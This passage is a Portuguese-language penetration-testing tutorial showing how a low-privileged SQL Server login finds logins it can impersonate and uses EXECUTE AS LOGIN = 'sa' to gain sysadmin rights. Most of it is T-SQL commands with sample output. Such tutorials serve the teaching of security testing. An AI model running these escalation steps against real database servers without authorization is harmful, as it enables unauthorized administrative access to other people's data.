 # Personificar usuários existentes com MSSQL

O SQL Server possui uma permissão especial, chamada `IMPERSONATE`, que permite ao usuário em execução obter as permissões de outro usuário ou fazer login até que o contexto seja redefinido ou a sessão termine. Vamos explorar como o `IMPERSONATE`privilégio pode levar ao escalonamento de privilégios no SQL Server.

Primeiro, precisamos identificar os usuários que podemos representar. Os administradores de sistemas podem representar qualquer pessoa por padrão, mas para usuários não administradores, os privilégios devem ser atribuídos explicitamente. Podemos usar a seguinte consulta para identificar usuários que podemos representar:

## Identifique os usuários que podemos personificar

```shell
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```

Para ter uma ideia das possibilidades de escalonamento de privilégios, vamos verificar se nosso usuário atual tem a função sysadmin:

## Verificando nosso usuário e função atuais

```shell
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0

(1 rows affected)
```

Como o valor retornado indica `0`, não temos a função sysadmin, mas podemos representar o usuário `sa`. Vamos personificar o usuário e executar os mesmos comandos. Para personificar um usuário, podemos usar a instrução Transact-SQL `EXECUTE AS LOGIN` e configurá-la para o usuário que queremos representar.

## Representando o usuário SA

```shell
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

>**Nota:** É recomendado executar `EXECUTE AS LOGIN` dentro do banco de dados master, pois todos os usuários, por padrão, têm acesso a esse banco de dados. Se um usuário que você está tentando representar não tiver acesso ao banco de dados ao qual você está se conectando, ele apresentará um erro. Tente passar para o banco de dados mestre usando `USE master`.

Agora podemos executar qualquer comando como administrador de sistema, conforme indica o valor retornado `1`. Para reverter a operação e retornar ao nosso usuário anterior, podemos usar a instrução Transact-SQL `REVERT`.

>**Nota:** Se encontrarmos um usuário que não seja sysadmin, ainda poderemos verificar se o usuário tem acesso a outros bancos de dados ou servidores vinculados.


















